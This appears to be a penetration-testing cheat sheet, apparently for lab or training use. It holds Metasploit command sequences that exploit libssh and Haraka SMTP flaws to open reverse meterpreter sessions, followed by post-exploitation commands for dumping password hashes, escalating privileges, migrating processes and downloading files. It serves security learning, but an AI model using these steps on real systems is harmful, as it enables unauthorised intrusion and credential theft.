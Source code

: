 #### SSH Exploitation:

```msfconsole
search libssh_auth_bypass
use 1
show options
set RHOST <ip-address>
set SPAWN_PTY true
run
```

> This can be used to tell weather it is vulnerable and can be used to gain a sell session.

```msfconsole
CTRIL + Z
y
use post/multi/manage/shell_to_meterpreter
show options 
set LHOST eth1
set SESSION <session-id>
run
```

> It can be used to convert the shell session to a meterpreter session. If it gives an error don't worry you can access the session from the `sessions` command. Other than this you can also use the `sessions -u 1` command to upgrade a shell session into a meterpreter session.

#### SMTP Server Exploitation

```msfconsole
search type:exploit name:haraka
use 1
set rhost <ip-address>
set SEVPORT 9898
set email_to <email-address>
set payload linux/x64/meterpreter_reverse_http
set LHOST eth1
run
```

> This module after running will give us a meterpreter session. In the module `email_to` should be an email that the server should accept.

#### Meterpreter Commands:

- `sysinfo`: This gives us basic system info like the OS, PC Name and all
- `getuid`: This command tells us about our permissions.
- `help`: This gives all the commands and their details.
- `backgroud`: This is used to put the session in background.
- `edit <file-name>`: To edit a file
- `kill`: This will kill the current session.
- `checksum MD5 /bin/bash`: To check the md5 hash in bin/bash directory.
- `search -d /dir/path -f "<file-name>"`: This command can be used to find a particular file in a directory.
- `search -f *.exe`: This can be used to find all the `exe` file or any extension that you'll enter.
- `download <file-name>`: This can be used to download a file.
- `shell`: This can be used to pop the native shell of the machine.
- `ps`: This can be used to list down all the processes.
- `migrate <pid>`: This can be used to migrate to any current running processes.
- `mkdir & rmdir`: Use to create and delete directory.
- `getsystem:` This command can be used to automatically elevate the privileges of the current exploited user on **windows**.
- `screenshot:` This command can be used to click a screenshot of the **windows screen**.
- `hashdump`: This command can be used to dump all the hashes of passwords with in the SAM DB.
- `show_mount`: This will tell all the disks mounted with the windows user.
- `loot`: After that you have ran some enumeration modules you can find the data saved in texts using this command